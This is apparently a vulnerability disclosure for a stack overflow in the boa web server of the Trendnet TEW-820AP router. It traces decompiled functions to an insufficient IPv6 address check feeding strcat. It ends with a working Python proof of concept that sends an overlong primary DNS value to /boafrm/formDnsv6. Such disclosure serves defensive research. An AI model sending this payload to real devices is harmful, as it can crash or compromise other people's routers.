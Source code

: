 # Description

The `boa` httpd of Trendnet TEW-820AP has a stack overflow vulnerability in `/boafrm/formIPv6Addr`, `/boafrm/formIpv6Setup`, `/boafrm/formDnsv6`. The reason is that the check of ipv6 address is not sufficient, which allows attackers to construct payloads for attacks.

Affected devices: [Wireless AC Easy-Upgrader - TRENDnet TEW-820AP](https://www.trendnet.com/support/support-detail.asp?prod=100_TEW-820AP)

Version: `1.01.B01`

# Details

There is a function `sub_460968` in `/bin/boa`

The main function of this function is to obtain the `ipv6` address in the parameter `a2`

![](2024-10-25_165036.png)

The `checkipv6` function only checks the number of `:` characters in `a2`.

![](2024-10-25_165216.png)

Apart from this, `sub_460968` does not have any checks, that is, as long as `a2` contains 7 non-adjacent `:` symbols, `strcat` will be used to paste `a2` to `a1`

`sub_460968` can be called by accessing the following path

- `/boafrm/formIPv6Addr`
- `/boafrm/formIpv6Setup`
- `/boafrm/formDnsv6`

## Example

The following takes `/boafrm/formDnsv6` as an example. When accessing this path, enter `sub_467770`

![](2024-10-25_170302.png)

Then enter `sub_46738C`

![](2024-10-25_170522.png)

Here, the dangerous function `sub_460968` mentioned above is called. When calling this function, the parameter `a1` is a pointer to the variable on the stack, and the parameter `a2` is input from the user and controlled by the user.

There is a stack overflow in this way

# POC

Take `/boafrm/formDnsv6` as an example

```python
import requests

target = '192.168.0.6'

data = {
	'enable_dnsv6':'1',
	'pri_dns':'1:2:3:4:5:6:7:8AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
}

requests.post("http://{}/boafrm/formDnsv6".format(target), data = data)
```

![](2024-10-25_181920.png)